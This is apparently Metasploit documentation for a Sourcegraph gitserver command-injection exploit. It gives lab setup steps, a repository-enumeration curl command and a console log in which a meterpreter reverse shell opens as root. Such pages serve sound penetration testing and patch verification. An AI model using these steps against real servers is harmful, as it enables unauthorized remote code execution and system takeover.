 ## Vulnerable Application

A vulnerability exists within Sourcegraph's gitserver component that allows a remote attacker to execute
arbitrary OS commands by modifying the core.sshCommand value within the git configuration. This command can
then be triggered on demand by executing a git push operation. The vulnerability was patched by introducing a
feature flag in version 3.37.0. This flag must be enabled for the protections to be in place which filter the
commands that are able to be executed through the git exec REST API.

The cloned repositories can be enumerated from the `/list` endpoint using the curl command:
`curl http://$target:3178/list?cloned=true`

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application (see detailed Docker Installation section below)
2. Start msfconsole
3. Do: `use exploits/linux/http/sourcegraph_gitserver_sshcmd`
4. Set the `RHOSTS`, `PAYLOAD` and any payload related options that are necessary
5. Do: `run`

### Docker Installation
1. Run the following command to start the all-inclusive docker container for Sourcegraph v3.36.3.

    ```
    docker run \
      --publish 3178:3178 \
      --publish 7080:7080 \
      --publish 127.0.0.1:3370:3370 \
      --rm \
      --volume /tmp/sourcegraph/config:/etc/sourcegraph \
      --volume /tmp/sourcegraph/data:/var/opt/sourcegraph \
      sourcegraph/server:3.36.3
    ```
2. Once the service has started, navigate to the webinterface at http://localhost:7080
3. When prompted, create an administrator's account
4. At least one git repository must be added, complete the following steps to add one.
    1. Navigate to `Repositories > Managed code hosts`
    2. Select "Generic Git host"
    3. When prompted, use the following example JSON code to clone Metasploit.

        ```
        {
          "url": "https://github.com/",
          "repos": [
            "rapid7/metasploit-framework.git"
          ]
        }
       ```

## Options

### EXISTING_REPO

An existing, cloned repository. If this value is not set, a random one will be selected from the server.

## Scenarios

### Docker v3.36.3

```
msf6 > use exploit/linux/http/sourcegraph_gitserver_sshcmd
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > set TARGET Unix\ Command 
TARGET => Unix Command
msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > check
[+] 192.168.159.128:3178 - The target is vulnerable. Successfully set core.sshCommand.
msf6 exploit(linux/http/sourcegraph_gitserver_sshcmd) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully set core.sshCommand.
[*] Using automatically identified repository: github.com/zerosteiner/gh-sandbox
[*] Executing Unix Command target
[*] Sending stage (40168 bytes) to 172.17.0.2
[*] Sending stage (40168 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 172.17.0.2:59116) at 2022-07-08 17:23:15 -0400
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 172.17.0.2:59124) at 2022-07-08 17:23:15 -0400

meterpreter > 
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : caab8e904df4
OS              : Linux 5.17.12-100.fc34.x86_64 #1 SMP PREEMPT Mon May 30 17:47:02 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
